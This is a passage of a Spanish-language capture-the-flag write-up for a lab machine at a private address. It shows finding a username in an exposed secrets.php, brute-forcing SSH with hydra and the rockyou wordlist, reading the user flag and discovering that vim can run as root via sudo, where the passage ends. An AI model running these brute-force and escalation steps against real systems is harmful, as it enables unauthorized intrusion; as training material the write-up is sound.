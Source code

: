 **Hallazgo crítico**:
- **/secrets.php**: Archivo expuesto con información sensible

### 3. Información Obtenida
**Contenido de secrets.php**:
- Nombre de usuario: **mario**
- Posibles credenciales o información adicional

## **Fuerza Bruta SSH**

### 4. Ataque con Hydra
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -vV -f -t 4 ssh://172.18.0.2
```

**Parámetros detallados**:
- `-l mario`: Usuario específico encontrado
- `-P rockyou.txt`: Wordlist de contraseñas
- `-vV`: Verbose muy detallado
- `-f`: Parar al encontrar la primera contraseña válida
- `-t 4`: 4 tareas paralelas para mayor velocidad

**Resultado**: Contraseña comprometida exitosamente

## **Acceso Inicial**

### 5. Conexión SSH
```bash
ssh mario@172.18.0.2
```

**Verificación de acceso**:
```bash
whoami
id
pwd
```

### 6. Flag de Usuario
```bash
find / -name user.txt -o -name flag.txt 2>/dev/null
cat /home/mario/user.txt
```

## **Escalada de Privilegios**

### 7. Enumeración de Permisos Sudo
```bash
sudo -l
```

**Resultado**:
```
User mario may run the following commands on trust:
    (root) /usr/bin/vim
```
